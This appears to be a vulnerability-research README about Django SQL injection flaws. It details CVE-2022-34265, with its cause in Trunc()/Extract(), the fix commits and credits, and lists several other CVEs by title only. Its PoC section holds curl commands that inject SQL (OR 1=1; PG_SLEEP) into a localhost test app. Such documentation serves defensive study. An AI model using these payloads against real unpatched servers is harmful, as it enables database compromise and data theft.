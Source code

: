 # Django Vulnerability Research

## Vulnerabilities

### [CVE-2022-34265](https://www.cvedetails.com/cve/CVE-2022-34265)

- **CWE-89**: Improper Neutralization of Special Elements used in an SQL Command
- **CVSS**: 9.8 CRITICAL
- **EPSS**: 0.54%
- 
##### Cause

- SQL Injection due to an Improper Neutralization of special elements used in the following functions with these arguments:
	- `Trunc()` - `kind`
	- `Extract()` - `lookup_name`

##### Impact

- Complete compromise of user information

#### Commit

- [Refs CVE-2022-34265 -- Properly escaped Extract() and Trunc() parameters.](https://github.com/django/django/pull/15820/commits/877c800f255ccaa7abde1fb944de45d1616f5cc9)
- [Refs CVE-2022-34265 -- Unified DatabaseOperations._convert_*_to_tz() hook names.](https://github.com/django/django/commit/5e2f4ddf2940704a26a4ac782b851989668d74db)

#### PoC

```bash
# Normal URL
curl "http://localhost:4131/extract/?lookup_name=year"
curl "http://localhost:4131/trunc/?kind=year"

# URL where the database instruction can be executed
curl "http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
curl "http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```

- Discovered by **Takuto Yoshikai (Aeye Security Lab)**
- Please check the following GitHub Repository for more information: [CVE-2022-34265](https://github.com/aeyesec/CVE-2022-34265)

### [CVE-2020-13524](https://nvd.nist.gov/vuln/detail/CVE-2020-13524)

### [CVE-2020-7471](https://nvd.nist.gov/vuln/detail/CVE-2020-7471)

### [CVE-2019-19844](https://nvd.nist.gov/vuln/detail/CVE-2019-19844)

### [CVE-2014-0472](https://nvd.nist.gov/vuln/detail/CVE-2014-0472)

## Resources

- [Django - Archive of security issues](https://docs.djangoproject.com/en/dev/releases/security/)
